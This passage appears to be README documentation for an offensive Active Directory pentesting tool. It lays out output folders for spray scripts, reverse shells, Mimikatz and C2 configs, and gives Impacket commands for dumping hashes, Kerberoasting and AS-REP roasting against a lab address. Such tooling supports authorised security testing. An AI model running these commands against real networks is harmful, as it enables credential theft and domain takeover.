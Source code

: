 
## 📁 Output Structure

After running EnumPath Pro, the following directory structure is created:

```
enumpath_<TARGET>_<TIMESTAMP>/
├── credentials/           # Password lists and spray scripts
│   ├── passwords.txt     # Common passwords for spraying
│   ├── spray.sh         # Automated spray script
│   └── users.txt        # Discovered usernames
├── exploits/            # Exploitation scripts and payloads
│   ├── reverse_shells_*.txt
│   └── persistence.txt
├── kerberos/           # Kerberos-related attacks
│   ├── kerberoast.txt  # Kerberoastable hashes
│   ├── asreproast.txt  # AS-REP roastable hashes
│   └── ticket_commands.txt
├── lateral_movement/   # Lateral movement techniques
│   ├── movement_commands.txt
│   └── mimikatz.txt
├── privesc/           # Privilege escalation vectors
│   ├── windows_privesc.txt
│   └── powerup.ps1
├── c2_configs/        # C2 framework configurations
│   ├── profile.profile  # Cobalt Strike profile
│   └── empire.yaml     # Empire configuration
├── bloodhound/        # BloodHound collection data
│   └── *.zip
├── exploitation/      # Auto-exploitation scripts
│   └── exploit.rc     # Metasploit resource script
├── hashes.txt        # Dumped NTLM hashes
├── pth_commands.txt  # Pass-the-Hash commands
└── report.json       # Complete JSON report
```

---

## ⚔️ Attack Modules

### 1. Credential Harvesting
```bash
# Automated hash dumping
impacket-secretsdump DOMAIN/user:pass@10.10.10.100

# Kerberoasting
impacket-GetUserSPNs DOMAIN/user:pass -dc-ip 10.10.10.100 -request

# AS-REP Roasting
impacket-GetNPUsers DOMAIN/ -usersfile users.txt -dc-ip 10.10.10.100
```
